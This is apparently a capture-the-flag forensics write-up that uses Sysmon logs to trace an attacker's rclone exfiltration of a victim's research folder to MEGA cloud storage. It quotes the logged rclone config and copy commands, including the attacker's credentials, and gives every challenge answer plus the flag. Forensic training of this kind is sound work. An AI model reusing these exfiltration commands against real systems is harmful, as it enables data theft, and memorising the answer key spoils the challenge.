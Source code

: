 # forensics/Packet Cyclone

### Description
> Pandora's friend and partner, Wade, is the one that leads the investigation into the relic's location. Recently, he noticed some weird traffic coming from his host. That led him to believe that his host was compromised. After a quick investigation, his fear was confirmed. Pandora tries now to see if the attacker caused the suspicious traffic during the exfiltration phase. Pandora believes that the malicious actor used rclone to exfiltrate Wade's research to the cloud. Using the tool called "chainsaw" and the sigma rules provided, can you detect the usage of rclone from the event logs produced by Sysmon? To get the flag, you need to start and connect to the docker service and answer all the questions correctly.

We have a folder with sigma rules for malware and a folder with Windows logs (.evtx)

I used this tool to read Windows logs(sigma rules didn't work for me):
https://github.com/omerbenamram/evtx

In file `Microsoft-Windows-Sysmon%4Operational.evtx` in record 76 we can find answers for questions 1-4:

```
<Data Name="CommandLine">"C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe" config create remote mega user majmeret@protonmail.com pass FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1qsU3EjhoKQw0rEoQqHyI</Data>
```

1.What is the email of the attacker used for the exfiltration process? (for example: name@email.com)

majmeret@protonmail.com

2.What is the password of the attacker used for the exfiltration process? (for example: password123)

FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1qsU3EjhoKQw0rEoQqHyI

3.What is the Cloud storage provider used by the attacker? (for example: cloud)

mega

4.What is the ID of the process used by the attackers to configure their tool? (for example: 1337)

3820

In the same file in record 78 we can find answers for questions 5-6:
```
<Data Name="CommandLine">"C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe" copy C:\Users\Wade\Desktop\Relic_location\ remote:exfiltration -v</Data>
```

5.What is the name of the folder the attacker exfiltrated; provide the full path. (for example: C:\Users\user\folder)

C:\Users\Wade\Desktop\Relic_location

6.What is the name of the folder the attacker exfiltrated the files to? (for example: exfil_folder)

exfiltration

*HTB{3v3n_3xtr4t3rr3str14l_B31nGs_us3_Rcl0n3_n0w4d4ys}*

